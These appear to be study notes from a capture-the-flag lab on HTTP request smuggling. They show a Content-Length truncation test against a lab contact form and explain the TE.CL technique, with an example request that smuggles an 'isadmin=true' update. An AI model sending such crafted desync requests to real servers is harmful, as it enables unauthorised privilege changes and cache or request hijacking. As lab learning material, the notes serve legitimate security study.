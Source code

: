 check ` httprequestsmuggling.thm/submissions/ ` to see if saved in .txt file
```
Name: test
Query: test
```

Since the size of the body `username=test&query=test` is 24 bytes, sending a Content-Length with a size lower than this will instruct the back-end server to interpret the request body differently.

```
Request                               Response
------------------------------------|----------------------
POST /contact.php HTTP/1.1          | HTTP/1.1 200 OK
Host: httprequestsmuggling.thm      | Server: ATS/7.1.1
Content-Length: 10                  | Content-Length: 26
Cache-Control: max-age=0            | ...
...

username=test&query=test            | Your query has been saved
```

- setting Content-Length to 10 bytes means the server will only consider the first 10 bytes of the body, leading to incomplete data being processed.
- check ` httprequestsmuggling.thm/submissions/ ` to see if saved in .txt file
```
Name: t
Query: 
```


## request smuggling TE.CL

#### Introduction to TE.CL Technique

**TE.CL** stands for **Transfer-Encoding/Content-Length**. This technique is the opposite of the CL.TE method. In the TE.CL approach, the discrepancy in header interpretation is flipped because the front-end server uses the Transfer-Encoding header to determine the end of a request, and the back-end server uses the Content-Length header.

The TE.CL technique arises when the proxy prioritizes the `Transfer-Encoding` header while the back-end server prioritizes the `Content-Length` header.

> [!info] **Example:** 
If an attacker sends a request with both headers, the front-end server or proxy might interpret the request based on the `Transfer-Encoding` header, while the back-end server might rely on the `Content-Length` header. This difference in interpretation might interpret the request differently, leading to unexpected behaviour.

#### Exploiting TE.CL for Request Smuggling

To exploit the TE.CL technique, an attacker crafts a specially designed request that includes both the **Transfer-Encoding** and **Content-Length** headers, aiming to create ambiguity in how the front-end and back-end servers interpret the request.  

For example, an attacker sends a request like:
```
POST / HTTP/1.1 
Host: example.com 
Content-Length: 4 
Transfer-Encoding: chunked 

78 

POST /update HTTP/1.1 
Host: example.com 
Content-Type: application/x-www-form-urlencoded 
Content-Length: 15 
isadmin=true 
```